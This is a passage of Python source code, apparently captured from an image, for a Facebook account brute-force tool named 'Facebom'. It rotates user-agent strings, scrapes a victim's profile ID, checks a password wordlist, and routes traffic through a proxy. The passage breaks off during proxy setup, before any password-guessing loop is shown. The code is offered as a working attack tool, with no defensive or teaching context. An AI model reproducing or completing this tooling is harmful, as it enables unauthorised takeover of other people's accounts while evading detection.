            'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36',
           'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/535.2 (KHTML, like Gecko) Chrome/15.0.874.54 Safari/535.2',
           'Opera/9.80 (J2ME/MIDP; Opera Mini/9.80 (S60; SymbOS; Opera Mobi/23.348; U; en) Presto/2.5.25 Version/10.54',
           'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.12 Safari/535.11',
           'Mozilla/5.0 (Windows NT 5.1) AppleWebKit/535.6 (KHTML, like Gecko) Chrome/16.0.897.0 Safari/535.6',
           'Mozilla/5.0 (X11; Linux x86_64; rv:17.0) Gecko/20121202 Firefox/17.0 Iceweasel/17.0.1']
    return random.choice(useragents)
 
#### Get Target Profile ID ####
def ID(url):
    try:
        idre = re.compile('"entity_id":"([0-9]+)"')
        con = requests.get(url).content
        idis = idre.findall(con)
        print(gr+"\n["+wi+"*"+gr+"] Target Profile"+wi+" ID: "+yl+idis[0]+wi)
    except IndexError:
        print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Please Check Your Victem Profile URL "+rd+"!!!"+wi)
        exit(1)
 
#### Facebom Brute Force Function ####
def FBOM(username, wordlist, proxy=None,passwd=None):
    if passwd==None:
      if not os.path.isfile(wordlist):
        print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" No Such File: [ "+rd+str(wordlist)+yl+" ] "+rd+"!!!"+wi)
        exit(1)
    if cnet() !=True:
        print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Please Check Your Intenrnet Connection "+rd+"!!!"+wi)
        exit(1)
 
    if proxy !=None:
        print(wi+"["+yl+"~"+wi+"] Connecting To "+wi+"Proxy[\033[1;33m {} \033[1;37m]...".format(proxy if ":" not in proxy else proxy.split(":")[0]))
        if ":" not in proxy:
            if proxy.count(".") ==3:
                if cpro(proxy) == True:
                    print(wi+"["+gr+"Connected"+wi+"]")
                    useproxy = proxy+":8080"
                else:
                  if cpro(proxy, port=80) ==True:
                    print(wi+"["+gr+"Connected"+wi+"]")
                    useproxy = proxy+":80"
                  else:
                    print(rd+"["+yl+"Connection Failed"+rd+"] !!!"+wi)
                    useproxy = False
                    print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Invalid HTTP/S Proxy["+rd+str(proxy)+yl+"]"+rd+" !!!"+wi)
                    exit(1)
            else:
                useproxy = False
                print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+"Invalid IPv4 ["+rd+str(proxy)+yl+"] "+rd+"!!!"+wi)
                exit(1)
        else:
            proxy,port = proxy.split(":")
            if proxy.count(".") ==3:
              if not port.isdigit() or int(port) <0 or int(port) > 65535:
                print(rd+"\n["+yl+"!"+rd+"] Error:"+yl+" Invalid Port ["+rd+port+yl+"] Should Be In Range("+wi+"0-65535"+yl+")"+rd+"!!!"+wi)
                exit(1)
              if cpro(proxy, port=port) == True:
                print(wi+"["+gr+"Connected"+wi+"]")